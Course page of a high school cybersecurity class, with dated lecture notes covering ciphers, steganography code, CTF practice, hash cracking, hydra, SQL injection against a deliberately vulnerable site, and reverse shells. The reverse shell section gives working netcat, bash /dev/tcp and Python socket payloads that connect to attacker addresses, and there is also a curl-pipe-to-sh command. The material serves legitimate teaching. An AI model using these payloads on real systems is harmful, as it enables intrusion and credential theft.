


Homework
- HW TRYHACKME
- HW Pico CTF
- HW Stegonography
- HW Crack Vigenere
- HW Perusall Enigma machine
- HW Scavenger Hunt
Lecture Notes
- 05-09 TryHackMe for the week.
- 05-05 Pico CTF
- 04-26 Hydra
- 04-25 TRYHACKME problemsets
- 04-12 Stegonography Challenge
- 04-08 Stegonography in processing
- 03-31 CTFWalkthrough
- 03-25 Digital Era Crytography
- 03-22 Lab03
- 03-21 Bash Scripts
- 03-17 Regex applications
- 03-16 Regex practice
- 03-15 Regular expressions
- 03-08 Vigenere Cipher
- 03-07 Polyalphabetic Ciphers
- 03-01 Monoalphabetic Ciphers
- 02-28 Encryption
- 02-17 Terminal Skills
- 02-16 Linux Fundamentals
- 02-10 Cyber Jargon
- 02-09 Passwords and Terminal
- 02-08 Scavenger
- 02-07 Shell familiarity
- 02-03 What is Cybersecurity
- 02-02 Logistics
2022-05-19
Final Project Repo
Please make them public. You can change the privacy setting, you do NOT have to re-create it)
Commits
Please make sure you commit your work every day. When writing code, commit much more frequently. You have class time, AND homework time to work on this, your efforts should reflect this.)
To make things easier for all parties involved, here are some more clear documentation requrements.
Contents
Your repository should contain the following.
-
README.md
- Your project description.
- Directions on how to use/access all parts of the project (including compilation steps + library installation)
- Links to the PRESENTATION + HOMEWORK md files.
-
WORKLOG.md
- A per person daily log of what you did at home + in class (starting 5/19)
- A complete list of references and resoures you used.
- PRESENTATION.md : Create your presentation/lesson "slides"
- HOMEWORK.md : The assignment/activity you plan on having the other students do on their own. This will be submitted on google classroom so it should have clear deliverables (in text format, such as "find the flags" and "write out the steps you took to ...")
- subdirectories : Place any code/scripts that you write in appropriate sub directories.
Note: You must use appropriate git markdown for formatting of your md files. Headers, links, code snippet highlights, etc.
Grade breakdown
40% - (project) The stuff you made (Lesson/Algorithms/tools/demos, etc.)
20% - (communication) Presentation* + Homework assigned to class.
20% - (documentation) Auxiliary Documentation and formatting
20% - (efforts) regular commits, appropriate commit messages, working over time, not procrastinating, both members working.
* both the document and the action of presenting in class.
2022-05-16
Final Project Groups
Fill this out with your partner: https://forms.gle/PLrDiiucUzMYmpc28
2022-05-13
Reminder
The 05-06 assignment was meant to be completed. There is a challenge to verify you did it correctly on the picoctf site at : ReverseEngineering -> Transformation
This link should take you there: https://play.picoctf.org/practice/challenge/104
PicoCTF
I will give full credit for missing up to 3 challenges, and a bonus if you had fewer than 3 missing.
You should have all of the General Skills, Plus the ones listed on the assignment from 2022-05-05 , and the one linked above (Transformation).
I hope you all feel like you have more skills than when you started.
2022-05-09
Work for this week:
I reserve some time to go over tricky things that come up. Otherwise this is a mini version of your final project independent work.
PicoCTF:You should be done with the basics general skill section. If you had trouble with any let me know and we can go over some of them.
Tryhackme:At this point attack box time shoud be reserved for class time only. Please do not use it at home.
There are four rooms for the week you can divide your time between class and home as you see fit:
- https://tryhackme.com/room/linuxstrengthtraining
- https://tryhackme.com/room/burpsuitebasics
- https://tryhackme.com/room/linuxprivesc
- https://tryhackme.com/room/vulnversity
Final Project:
Start now: Begin to choose research topics and partners.
Ultimate goals:
You will present a 15 minute lesson to the class on a cybersecurity topic. (More time CAN be alloted for some ambitious topics)
Alternatively you can create a tool, teach about the purpose and importance of what it does, and demo how it works.
You will give a brief homework assignment to be submitted on google classroom. The class must be able to do it based on your presentation. If you created a tool, you must also create a set of problems/tasks for the class to solve with the tool.
groups that work on the same topics can coordinate what is being presented.
You will not:
Spend much time having the class work on an activity as you have limited time.
Sample projects/topics:
Present a new cipher, along with historical context, weakpoints. You would be required to make an encoder/decoder and if possible a tool that can crack it when a key is missing.
Present an existing tool / exploit. You would need to provide a way for students to test this.
Implement an image / sound stego program. Something like stegsolve maybe. For audio, something that keeps the files valid sound files but with hidden bits.
Harder: Create a try hack me room with various challenges. It can incorporate some prior things we learned but must also have seomthing new.
Harder: Implement a contemporary cipher (SHA/AES) preferably you can demonstrate that it is compatible with other tools
2022-05-06
Pico CTF challenges
The following string is encoded using a python script
潯灳彔桩獟楳彮潴彶慬楤
Here is the script:
''.join( [ chr((ord(flag[i]) << 8) + ord(flag[i + 1]))
for i in range(0, len(flag), 2) ] ) Write a script to decode the message.
Hint: Use the skills you gained from the image stego lab! Bitshifting as well as the bitwise and/or : & , |
2022-05-05
Pico CTF
PicoCTF can be found here: https://picoctf.org/ It is a CTF run by Carnegie Mellon University.
Create an account and join us!
- You should make an account there now, using your stuy.edu email.
- Please make your username you stuy.edu email prefix (rkim22, jsmith, etc.)
- Join the classroom with the following join code: Cvozs9tJB
Warmup Complete some problems:
Click on practice or go here: https://play.picoctf.org/practice
The problems are categorized by topic on the filter on the left side of the screen. You can also search for problems.
Complete the following 6 problems:
Section: CryptographyProblems:
Mod 26, 13, caesar, Vigenere
Section: General Skillsproblems:
what's a net cat?
Nice Netcat...
Classwork + Homework:
General Skills: Do the rest and see how many you can finish! (classwork + homework! 25 minutes in class + 30 minutes at home.)
2022-05-04
Goal:
tryhackme room:
https://tryhackme.com/room/cowboyhacker
You need to scan for ports, and connect to services. You need to ultimately find a way to elevate your privileges
Reminders:
Privilege Escalation
Most computer systems are designed for use with multiple user accounts, each of which has abilities known as privileges. The permission settings on the linux machines is how you restrict access or grant privileges.
Privilege escalation is the act of exploiting a bug, a design flaw, or a configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user.
There are a large variety of ways to achieve this goal, and here is a checklist of many of those ways: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
This kind of checklist is a great way to expand your skillset.
It will take time and practice, and lots of trial and error to learn to use a lot of exploits. Sometimes you just "stackOverflow" a problem using a canned solution, other times you need to understand it and be able to modify it to suit your needs and the current configuration of the target machine.
GTFOBins - A misconfigured system that grants you root access to ANY tool, can potentially be a vulnerability. There are several Search engines for exploits. GTFOBins is a great resource to help you search for linux based exploits. https://gtfobins.github.io
linPEAS is a suite of tools that will scan for a large number of known or possible vulnerabilities. The repo shows you a variety of ways to execute the script, aside from just downloading it and running it directly. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
2022-05-03
Reverse Shell and Bind Shell
Homework: tryhackme pickle rick
https://tryhackme.com/room/picklerickThere are no special requirements, vpn'ing in should be fine from your personal device as long as you have nmap
Find the 3 flags, with or without a reverse shell. Submit how you did it on google classrooms.
Bonus:
Attempt to create a reverse shell in the pickle-rick try hack me room.
1. What command did you use to do this?
2. How easy was it to get to the flag this way?
You know a shell is a command line interface that allows you to run commands.
A Bind Shell session initiated from an attack machine towards a target machine. The target machine listens on a specified port, on which it receives connection from the attacker machine. After the connection is made, the attack machine has a shell on the target machine.
Bind shells don't always work for you because you have to get past a firewall to access a target machine.
A Reverse Shell is a session that initiates from a remote machine i.e. target host to the attacker machine. The attack machine listens on a specified port. After the connection is made, the attack machine has a shell on the target machine.
A reverse shell will allow the target machine to bypass the firewall for you!
Netcat
Netcat is a Command-line Interface (CLI) tool that is use to read/write data over TCP/UDP.
It is a Back-End tool which can be cross utilized by other programs (can connect to it with many other applications).
Documentation states that Netcat can be used for:
- It can allow other programs to establish connections etc.
- Outbound/Inbound (TCP + UDP) connections
- Any source port can be used by netcat
- Can use any configured source network address (locally).
- Port Scanning
- It can read CLI arguments from STDIN
- Slow transmitting mode
- Hex-dump of any communication.
Netcat's 1st feature is the one we care about for today's activity.
What are we doing?
If you find a way to perform Remote Code Execution (RCE), the next step is to gain a remote shell session through either reverse shell or bind shell. This would make the session is more stable and interactive. Netcat is easy to use and cross platform so we will try to use it to gain a shall on a target machine.
There are three steps in setting up a remote shell:
- Set Up a Netcat listener on the attacking machine.
- Connect back to Netcat listener from target machine (requires some form of remote code execution)
- Run commands on the target from the attacking machine through the Netcat shell session.
Instalation
Linux:
sudo apt-get install netcat
Mac:
brew install netcat
Windows:
You can find a binary here: http://joncraton.org/files/nc111nt.zip (Check the MD5 hash value is 37f2383aa4e825e7005c74099f8bb2c3 for security purposes) The password of the .zip file is 'nc'
Let us take a look at how to install a netcat reverse shell on various machines and how it can be used. Netcat is used in daily life of an ethical hacker and how we can get reverse shell through it. We then discussed edge case scenarios where a red teamer or an ethical hacker cannot get access to a Netcat binary.
Method 1. Using netcat on the target machine:
netcat (nc or ncat) can be used to create a reverse shell.
Run a server on the attack box (you have to forward the port to your attack box if you are behind a router):
Open a shell, and run a server on a specific port here I chose 9001. nc -lvp port
nc -lvp 9001
- -l for listen mode, for inbound connects
- -v for verbose
- -p [port] for specifying port number
Run a command on the target box:
To connect your target box to your attack box you execute the following command. This could be via a script or non-interactive shell (e.g. pickle rick website)
nc [attacker-ip] [port] -e cmd.exe
nc 192.168.100.113 9001 -e /bin/bash
You might need ncat instead of nc because the versions have different features.
You are connected!
Now you can type commands on the attack box and have them run on the target machine! Be aware that you only have the same permissions as the account that is logged into the target machine.
Pros/Cons
This is a simple and effective way to get a reverse shell started. One major downside is that you need Netcat on the target host which is very often not the case in real world scenario. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box.
Let's have a look at a few alternative ways to setup a reverse shell.
Method 2: bash on the target machine
You can connect bash to you netcat server. Since bash is usually present, this is more flexible than connecting with netcat.
Again run a server on the attak machine:
nc -lvp 9001
With can now use Bash to initiate a reverse shell from the target host to the attack box by using the following command:
bash -i >& /dev/tcp/ADDRESS/9001 0>&1
Method3: python on the target machine
You can connect using a python script too!
Again run a server on the attak machine:
nc -lvp 9001
On the target machine run the python script:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("149.89.161.100",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
The script so you can read it more easily
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("149.89.161.100",9999));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
There are scripts in many common scripting languages: perl, php, etc. This would allow you to trigger the reverse shell using a website that allows you to run scripts. It is important to prevent users from writing to files that can then be executed by an elevated account.
Other reverse shells
Here are some lists of different payloads to execute to generate reverse shells:
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.mdNetcat cheat sheet:
https://www.varonis.com/blog/netcat-commands/General Problems:
This reverse shell isn't as flexible as a normal bash shell:
- no tab completion
- ctrl-C will close the whole shell.
- Errors don't go to the attack box (STDERR)
- Severa other things that you will notice as you use it
2022-04-29
SQL Injection
Together the three exploits in this section will allow a hacker to look at user emails and passwords from a website that stores data in a SQL database.
Exploits in this Section
Not sanitized user input
Leaked error messages
Plaintext passwords
Lets do it
We will be hacking a website http://hack-yourself-first.com/ created by Troy Hunt.
It is an intentionally vulnerable web app for practicing web security. WARNING Do not use any real passwords or any real personal information as the site will be hacked by many people and the data rendered visible.
Students will be in groups of 4. Each group will have a number. You will have a fake email that uses that number e.g. group1@cyber.stuy, group2@cyber.stuy
Each group chooses a password, write your email and password combination on paper so you don't forget.
Groups will: Sign up for an account… using fake info here: http://hack-yourself-first.com/Account/Register
Step by step...
On the home page where it says "Cylinder layouts". Click a few buttons and see what the URL string passes to the website
http://hack-yourself-first.com/CarsByCylinders?Cylinders=V6
http://hack-yourself-first.com/CarsByCylinders?Cylinders=V8
http://hack-yourself-first.com/CarsByCylinders?Cylinders=V12
Notice that a query string Cylinders=___ is used to tell the server what to request.
It is possible the string is being used to generate a SQL query, like this:
SELECT * FROM supercar WHERE cylinders = 'V6';
We can test this by trying to trigger an error. If we can trigger a SQL syntax error, that means the query string is inserted AND we have the ability to inject SQL queries. Perhaps the "V6" is ending up between a pair of single quotes, as it should be a SQL string.
hack-yourself-first.com/CarsByCylinders?Cylinders=V6' ????? ;--
The single quote after V6 is closing the string, followed by more sql code.
Try to:
Expose a SQL injection vulnerability
Do this by inducing a SQL syntax error. Edit the URL by altering the query string and re-visiting the page.
A conspicuous error message will appear if the website does not handle errors well.
SQL tautology
Now let's inject some purposeful SQL. We'll use a SQL tautology. These are expressions that are always true because they are redundant 1 = 1 or 'x' = 'x'. When combined with logical operators OR and AND these can be used in malicious ways to negate other boolean expressions.
This page is showing the cars with a V6 cylinder layout. Let's see if we can get the page to show ALL the cars, regardless of cylinders. See if you can utilize a tautology to craft a WHERE clause that will always be true.
hack-yourself-first.com/CarsByCylinders?Cylinders=V6' ??????? ;--
Schema discovery
Navigate to this url: http://hack-yourself-first.com/CarsByCylinders?Cylinders=V6' AND 1=(SELECT * FROM foo);--Visiting this page will tell us Invalid object name 'foo'. This is a helpful error message because it will change if we choose a name that IS a valid name!
This is running a SQL command similar to this:
SELECT * FROM supercar WHERE cylinder = 'V6' AND 1=(SELECT * FROM foo);--';
This gives an error that foo doesn't exist! (good) Let us find a way to find existing things.
What if we replace "foo" with "supercar"? The error message will be different. This is because the inner query succeeded, telling us that the "supercar" table exists. In fact it returned several rows and placed the result in the outer query and tried to compare it to 1. The error is from trying to compare a single integer to a bunch of rows. Using this method, we can brute force the rest of the table names if we wanted to (but don't do that just yet).
You can guess a bunch of values for foo and see when you get an error that isn't the same
First we'll need to find out the table name. Here are some sensible names to try:
- user
- users
- profile
- profiles
- userprofile
- account
- accounts
Once we have the table name for our users, we can try to get some password.
See the top 1 value:
Using an inner query we can run arbitrary commands. However, we also need to visualize the result. The structure of the outer query may limit our ability to see our results. We know that the result of the inner query will get compared to the number 1. If we have multiple values, we'll get a vague error message. It doesn't actually show the results from the inner query. But what if the result of the inner query is a single value?
http://hack-yourself-first.com/CarsByCylinders?Cylinders=V6' AND 1=(SELECT TOP 1 COLUMN_NAME FROM TABLE_NAME);--
e.g.
1=(SELECT TOP 1 cylinders FROM supercar);--';
You have to guess the column names for now, but you can probably guess at least one... name, id, email, first/last name, or other common categories for a user table.
Password stealing
Let's start stealing passwords.
TOP 1 will limit the results to one row. We are also only selecting one column "cylinders". This is a single value (the string "V6") so it actually makes sense to try to compare it to the value 1! The following error message is displayed: Conversion failed when converting the nvarchar value 'V6' to data type int. It tried to convert "V6" to an integer and it actually showed us the value in the error message!
Perhaps we can do something similar with a user's password.
Craft an inner query to obtain the top 1 user's password
Hack your neighbor group!
Exchange emails (that you used to register with this app) with another group and try to obtain one another's passwords.
More:
There are libraries dedicated to preventing this.
The main thing is to scrub input from special characters to prevet sql injections!
Furthermore, using an ORM will prevent malicious SQL injections to make it to the DB.
SQLMAP
SQLMAP is an automatic injection tool!
sqlmap --url https://hack-yourself-first.com/Make/7?orderby=a --dbs -batch
sqlmap --url https://hack-yourself-first.com/Make/7?orderby=a -D hackyourselffirst_db --tables --batch
2022-04-28
linPEAS
You can find the actual script here: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh but you don't have to get it until you need it.
The linPEAS repo has instructions on running linPEAS, but I didn't read past the images.
Looking at https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS you can see this section:
There are different ways to use linPEAS depending on what access you have on the target machine.
Run from github
If you have curl access, and access to the outside network:
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
This may not work, for example on a network like THM that has no web access.
Lets go GoBuster
Gobuster is a directory enumeration tool
Install it on your home machine with:
sudo apt install gobuster
Download a word list (directories) from somewhere such as : https://github.com/danielmiessler/SecLists/
Seclists/Discovery/Web-Content/ has several directory lists, including directory-list-1.0.txt
Test it on a hackable website:
gobuster -u https://hack-yourself-first.com/ -w ./directory-list-1.0.txt
SQLmap
sqlmap is easy to install as well:
sudo apt install sqlmap
Homework tryhackme SQLMAP room:
2022-04-27
Homework Part 1: How to research (no attack box required)
https://tryhackme.com/room/introtoresearch
Homework Part 2: Use hydra
Use hydra to break into the machine via SSH. Connect to 167.172.133.229 usig the account haxor
You will be submitting a plain text file in the format:
Name flag External IP address (try https://www.whatismyip.com/ )
Vulnerability Databases
NVD (National Vulnerability Database) https://nvd.nist.gov/vuln/full-listing
Exploit-DB: https://www.exploit-db.com/
GTFObins: https://gtfobins.github.io/
How do you check all these explots?!?
You sometimes look up specific versions of specific applications looking for exploits, but if you try to do this with EVERY program on a machine you will go crazy.
Often we enumerate exploits like we enumerate directories. People have written tools to test many exploits:
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Sometimes you cannot use one of the tools because the target machine doesn't have the proper tools installed (python for example is required for some enumaration tools)
2022-04-26
Homework: TryHackMe Hydra
https://tryhackme.com/room/hydra
Installing hydra on Ubuntu/WSL:
sudo apt update
sudo apt install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird-dev
sudo apt install hydra
Note: I removed "libncp-dev" because that failed to install, and hydra still worked. Let me know if there are remaining issues.
Installing john the ripper on Ubuntu/WSL:
sudo apt-get install john -y
2022-04-25
Homework: TryHackMe crackthehash
https://tryhackme.com/room/crackthehash
Expectations:
At this point you should be able to quickly (remind yourself how, and then) run a scan of open ports on a target machine. This is faster than scanning a network of multiple machines!
Do Now:
How do you find a list of services running on a target machine?
When you find a list of services, how can you try to find more about those services: Come up with 3 different services [types of servers], and what you would do to find out more.
Directory enumeration
Several enumeration tools such as http-dir-enum, gobuster, and DirBuster are able to quickly list directories which exist on a website. These tools still need lists of known common directories to test with like rockyou but for foldernames. They do not bruteforce all possibilities.
Other more general tools such as nikto and nessus can also perform this attack, but typically go into less depth.
Cracking Hashes
You can use hashcat or john the ripper. Feel free to use the attack box if you cannot get hashcat/jtr working.
https://www.openwall.com/john/
Gitbash, and the school computers both seem to have md5sum installed so this should work. On gitbash there is an extra * in the output, but the tr command removes all the extra characters.
Save the following into a file called makepasswords.sh, notice the first line has > not >>, this is to clear the file so you don't make duplicates by running it more than once.
echo -n "password" | md5sum | tr -d " *-" > target_hashes.txt
echo -n "PASSWORD" | md5sum | tr -d " *-" >> target_hashes.txt
echo -n "Password" | md5sum | tr -d " *-" >> target_hashes.txt
echo -n "P455w0rd" | md5sum | tr -d " *-" >> target_hashes.txt
echo -n "rockyou" | md5sum | tr -d " *-" >> target_hashes.txt
echo -n "S3CuReP455Word" | md5sum | tr -d " *-" >> target_hashes.txt
echo -n "GuessMe" | md5sum | tr -d " *-" >> target_hashes.txt
Don't forget to chmod your file
chmod +x makepasswords.sh
Now you can run the script to convert each password to a hash and append that to a file using the following command:
./makepasswords.sh
The resulting file target_hashes.txt should look like this: (You can optionally add a few more passwords to test with but the file will be longer as a result)
5f4dcc3b5aa765d61d8327deb882cf99
319f4d26e3c536b5dd871bb2c52e3178
dc647eb65e6711e155375218212b3964
75b71aa6842e450f12aca00fdf54c51d
f806fc5a2a0d5ba2471600758452799c
b5af0b804ff7238bce48adef1e0c213f
031cbcccd3ba6bd4d1556330995b8d08
Crack those hashes!
Before you start, make sure you have:
- download and extract hashcat (only on your personal computer)
- created the target_hashes.txt file (directions above),
- open a terminal in your hashcat directory, or cd into your hashcat directory.
- save your rockyou.txt in the hashcat directory to make your life easier.
The hashcat command we want to use is as follows:
hashcat -m 0 -a 0 INPUT_FILE password_list
hashcat -m 0 -a 0 target_hashes.txt rockyou.txt
2022-04-14
General Problem Solving
I am not starting a new topic right before break on a day where the absence rate is higher than normal.
Instead: Here are several open ended problems.
- Try to find the best solution for each.
- You are free to discuss this with your neighbors.
- You must write down ideas for each posed problem, as well as what you think your best idea is.
Pirates Gold
There are 5 pirates of different ranks 1 through 5, they must decide how to distribute 100 gold coins among them.
- The highest ranking pirate proposes a distribution of coins between each of the remaining pirates. e.g. 96,1,1,1,1(5 pirates left) or 50,50 (2 pirates left)
- All pirates vote on whether to accept the proposal.
- The proposal is approved if at least half of the pirates vote yes (including the proposer, a tie passes)
- If the distribution is approved, the coins are distributed and the game ends.
- If it is not approved, the proposer is killed, and the next most senior pirate makes a new proposal to begin the system again.
Your task: Determine the maximum number of coins the Rank 5 pirate can keep in order for the proposal to pass, and how to distribute the coins.
Poison the King
A king that may or may not sbe evil has been targeted by an assasination attempt. An assasin was caught after poisoning exactly 1 bottle out of his collection 1000 bottles of expensive wine. The poison takes 3 months to take effect, and the effect is a quick death with no other symptoms. The poison cannot be detected via any known chemical means, nor via taste. A single drop of wine is enough to kill the person who drinks it (still in 3 months time)
Your task: Devise a method for the King to use the peasants to test the wine.
There are two obviouis naive methods: One is to take 1 peasant and give them a drop of one bottle, wait 3 months, then give them a drop of the next bottle. This would determine which bottle in 3000 months, which is too long for the king to wait to drink his wine.
The other method is to take 1000 peasants and give them each a drop of wine from differnet bottles. In 3 months, the one that dies will identify the correct bottle. Unfortunately peasants have notoriously short life spans, and they might die before the 3 months have elapsed.
Determine a way to minimize the number of peasants (So they can be cared for and not die of OTHER random diseases etc.) and the number of months required (So the king can drink his wine ASAP!) to determine which bottle of wine is poisoned.
100 Prisoners and a Lightbulb
There are 100 prisoners in solitary cells. There's a central living room with one light bulb; this bulb is initially off. No prisoner can see the light bulb from his or her own cell. Everyday, the warden picks a prisoner at random, and that prisoner visits the living room. While there, the prisoner can toggle the bulb if he or she wishes. Also, the prisoner has the option of making a claim that all 100 prisoners have been to the living room by now.
If this claim is false, all 100 prisoners are shot.
However, if it is indeed true, all prisoners are set free.
The prisoner should only make the claim if that prisoner is 100% certain of its validity.The prisoners are allowed to get together one night in the courtyard, to discuss a plan. What plan should they agree on, so that eventually, someone will make a correct assertion?
The only communication after the initial night is the lightbulb, no notes cheating etc.
2022-04-12
Challenge mode!
You should be able to compare two images and see the diff.
You also should be able to assemble a message if you know which pixels have the encoded message.
Now I have encoded a message in an image, with a slight variation of the original algorithm. You will need to think about how to extract it.
- Determine: Which pixels changed? What do they have in common in the original image. Use print statements to help you.
- Make a modified decoder that can extract the data!
- Try to extract all of the data and reassemble it. It is not a text message... you need to view the results somehow.
Here are the two images:
Original:
Modified:
2022-04-11
Classwork/Homework Due Wednesday in class:
Create an image_diff sketch in your stegonography directory.
This sketch will compare "cat.png" to "modifiedCat.png"
The processing window will visually show the differences between the images.
Part 1:
Keep your size() as 1200x600 for this sketch.
Open both files, and loop over the corresponding pixels and check if the colors are equal.
output: When the pixels differ, output a black pixel, otherwise output a white pixel (if you kept the image the same as the cat, you can turn it white here instead).
Part 2:
Look more closely at the image_encoder source code. Find the way to determine if the pixel contains encoded message or if it is just a dummy pixel.
Output:
When the pixel is a dummy pixel (no encoded data) output a purple pixel (255,0,255).
When the pixel contains encoded data output a green pixel.
Part 2 Modification:
When the pixel contains encoded data, output some colors that allows you to determine which value it is. (0,1,2,3)
Obviously do not use purple or similar colors.
stegonography so far:
Directory "stegonography" should have 3 sketches saved in it. The folder structure should look like this:
|-- CyberSecurityLabsRepository
| `-- stegonography
| |-- image_decoder
| | |-- data
| | | `-- modifiedCat.png
| | `-- image_decoder.pde
| |-- image_diff //(This is today's assignment)
| | |-- data
| | | |-- cat.png // (This is the original cat pic I posted.)
| | | `-- modifiedCat.png
| | `-- image_diff.pde
| `-- image_encoder
| |-- data
| | `-- cat.png // (This is the original cat pic I posted.)
| |-- image_encoder.pde
| `-- modifiedCat.png
2022-04-08
Processing Sample code:
This will open an image, and output a modified version in your processing window.
//for code that runs one time place all code in setup.
void setup(){
size(1200,600);
PImage img = loadImage("cat.png");
//println(img.width,img.height);//to check size of other images print this
//load all the pixels into an array for easy access
img.loadPixels();
//loop over all of the pixels
int numPixels = img.width * img.height;
for (int i = 0; i < numPixels ; i++) {
//get the r,g,b values from the pixel
color c = img.pixels[i];
int red = (int)red(c);
int green = (int)green(c);
int blue = (int)blue(c);
img.pixels[i] = color(red,green/2,0);//set a new color here!
}
//save the changes you made in the array to the image
img.updatePixels();
//output the image
image(img,0,0);
}
Homework:
Spend at least 30 minutes trying to figure this out. If you get close try to finish, if you are utterly stuck we will spend time to discuss.(including my bad design choices.)
Start working on this. I will give some class time to allow for questions and fixing of issues if you find it incomprehensible. Forgive the style I usually code better when I don't have PTC, Pclassic, and a test to make.
Please create a directory called "stegonography" in your lab repo. This isn't a lab (yet)
Here is the cat:
cat.png{kind=link}
Here is an ENCODER: (it is complete)
Create a sketch called image_encoder Add the file cat.png to your sketch.
Run the sketch to generate the input to the decoder.
import java.util.Arrays;
boolean lastThree(int value){
return (value & 7) == 0;
}
boolean firstThree(int value){
return (value & 224) == 0;
}
int setLastThree(int secret, int original){
return secret | original;
}
//for code that runs one time place all code in setup.
void setup(){
size(1200,600);
PImage img = loadImage("cat.png");
println(img.width,img.height);//to check size for display purposes.
img.loadPixels();
String message = "The message is encoded in a somewhat obvious way if you know how to decode";
//convert the string into an array of ints in the range 0-3
int[]parts = new int[message.length() * 4];
int index = 0;
for(int si = 0 ; si < message.length(); si++){
char c = message.charAt(si);
int c1 = (128+64) & c;
c1 = c1 >> 6;
int c2 = (32+16) & c;
c2= c2 >> 4;
int c3 = (8+4) & c;
c3 = c3 >> 2;
int c4 = (2+1) & c;
println(c1,c2,c3,c4);
parts[index*4] = c1;
parts[index*4+1] = c2;
parts[index*4+2] = c3;
parts[index*4+3] = c4;
index++;
}
//add those values to the pixels!
int count = 0;
int numPixels = img.width * img.height;
for (int i = 0; i < numPixels ; i++) {
color c = img.pixels[i];
int red = (int)red(c);
int green = (int)green(c);
int blue = (int)blue(c);
//when the red and blue end in 000, modify the last 2 bits of green.
if( lastThree(red) && lastThree(blue)){
//clear the green data last 2 bits.
green = (green & (128+64+32+16+8+4));
if(count < parts.length){
//change the last 2 bits to the partial character
green = (green | parts[count]);
count++;
}else{
//when no more message, fix the blue so it doesn't have 000 at the end.
blue = blue | 1;
}
img.pixels[i]= color(red,green,blue);
}
}
img.updatePixels();
img.save("modifiedCat.png");
}
Debug output will help with the decoder:
This is the start of the encoded message:
1 1 1 0 (T 01010100) 1 2 2 0 (h 01101000) 1 2 1 1 (e 01100101) 0 2 0 0 (etc.) 1 2 3 1 1 2 1 1 1 3 0 3 1 3 0 3 1 2 0 1 1 2 1 3 1 2 1 1 0 2 0 0 1 2 2 1 1 3 0 3 0 2 0 0 1 2 1 1 1 2 3 2 1 2 0 3 1 2 3 3 1 2 1 0 1 2 1 1
Decoder!
Now here is the START of a decoder. Save it in image_decoder.
After you run image_encoder, add the output file (modifiedCat.png to this sketch.)
You can start by printing out the values to see if they match the text output (debug console) of the original sketch.
import java.util.Arrays;
boolean lastThree(int value){
return (value & 7) == 0;
}
/**
*Extract the message given a list of the parts of each character.
*Every 4 values is one character.
*Loop over the list and assemble the characters, and append
*each character to an answer string.
*/
String reassemble(ArrayList<Integer> parts){
String ans = "";
/**
* loop through the parts list, and append the decoded characters to the ans String
* You may use another loop or list if you need, but it can be done here.
*/
return ans;
}
//for code that runs one time place all code in setup.
void setup(){
size(1200,600);
PImage img = loadImage("modifiedCat.png");
img.loadPixels();
ArrayList<Integer> data = new ArrayList<Integer>();
int count = 0;
int numPixels = img.width * img.height;
for (int i = 0; i < numPixels ; i++) {
//extract the numbers from the special pixels add them to an ArrayList
color c = img.pixels[i];
int red = (int)red(c);
int green = (int)green(c);
int blue = (int)blue(c);
/***********complete this section! **********/
